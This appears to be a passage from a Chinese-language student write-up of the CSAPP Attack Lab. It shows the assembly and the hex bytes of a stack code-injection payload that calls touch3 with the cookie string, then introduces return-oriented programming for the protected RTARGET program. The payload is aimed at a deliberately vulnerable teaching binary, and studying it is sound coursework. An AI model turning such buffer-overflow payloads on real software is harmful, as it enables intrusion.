 根据ASCII码表，cookie 0x59b997fa在内存中存储为
```
打印数据显示:
59b997fa

实际内存:
低地址               高地址
5  9  b  9  9  7  f  a  \0      (字符)
35 39 62 39 39 37 66 61 00      (十六进制ASCII码)
```

这样我们就确定了要填充的字符的内容。

然后我们要想办法将cookie字符串的地址(0x5561dca8)放到%rdi寄存器中，然后调用touch3函数。

编写汇编指令如下：
```
movq  $0x5561dca8, %rdi  #注入字符串的首地址
pushq $0x4018fa          #touch3的首地址
retq
```

**按照我们之前提到的内存布局**，最后要注入的字符串为：
```
48 c7 c7 a8 dc 61 55        /* mov   $0x5561dca8,%rdi, cookie字符串的首地址 */
68 fa 18 40 00              /* pushq $0x4018fa */
c3                          /* retq */

00 00 00 00 00 00 00 00 00  /* 填充27字节 */
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00

78 dc 61 55 00 00 00 00     /* 注入代码的首地址0x5561dc78 ，这里需要完整的四字 */
35 39 62 39 39 37 66 61 00  /* cookie字符串 */
```

# Part2: Return-Oriented Programming
>Performing code-injection attacks on program RTARGET is much more difficult than it is for CTARGET,because it uses two techniques to thwart such attacks:
>- It uses randomization so that the stack positions differ from one run to another. This makes it impossible to determine where your injected code will be located.
>- It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault

rtarget程序开启了栈随机化，所以每次运行时栈的位置都是不同的，而且程序不允许我们将栈上的数据当作可执行代码来执行，**这使得我们无法将我们的攻击代码注入到栈上**。

这时我们就需要名为*Return-Oriented Programming*(ROP，面向返回的编程)的技术。

该技术利用程序中已存在的可执行代码，通过构造一系列的gadget，来实现我们的攻击目的。

想要具体的了解该技术，可以观看该视频：[《2015 CMU 15-213 CSAPP 深入理解计算机系统 课程视频》](https://www.bilibili.com/video/BV1iW411d7hd?p=9&vd_source=41f40e98b6eaf1e89c64b536001ad412)P9 1:03:25开始的部分。

简单来说我们就是要在程序已存在的可执行代码中，找到一些特定的指令序列，然后通过构造一系列的gadget，来实现我们的攻击目的。gadget可能是一条完整的指令，也可能是某些指令的一部分。

